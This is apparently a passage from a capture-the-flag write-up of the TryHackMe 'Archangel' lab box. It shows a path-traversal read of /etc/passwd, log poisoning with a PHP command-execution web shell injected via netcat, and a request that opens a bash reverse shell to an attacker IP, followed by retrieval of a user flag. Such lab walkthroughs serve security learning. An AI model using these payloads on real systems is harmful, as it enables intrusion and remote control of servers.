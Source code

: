 i ended up with:

```shell
/var/www/html/development_testing/..//..//..//../etc/passwd
```

and it worked!

![image](/images/Pasted image 20221023104255.png)

after digging around further i could not find any credentials. so i looked for log files to try log poisoning.

### Log poisoning

![image](/images/Pasted image 20221023104442.png)

i used this payload

```php
<?php echo system($_GET['cmd']); ?>
```

to get it into the logs i used netcat.

```shell
$ nc mafialive.thm 80
GET /<?php echo system($_GET['cmd']); ?>
HTTP/1.1 400 Bad Request
Date: Sun, 23 Oct 2022 09:08:38 GMT
Server: Apache/2.4.29 (Ubuntu)
Content-Length: 301
Connection: close
Content-Type: text/html; charset=iso-8859-1
```

then i activated a reverse shell with this request in burb suite. 

```shell
GET /test.php?view=/var/www/html/development_testing/..//..//..//..//var/log/apache2/access.log&cmd=/bin/bash+-c+'bash+-i+>%26+/dev/tcp/<attack-ip>/4444+0>%261'
```

### Flag 2

i found the second flag in the home directory of `archangel`

```shell
www-data@ubuntu:/home/archangel$ ls
myfiles  secret  user.txt
www-data@ubuntu:/home/archangel$ cat user.txt
thm{lf***************cky}
```

there was a `myfiles` directory with a file called `passwordbackup`
turns out it was another rick roll. = __ =

### Cron job
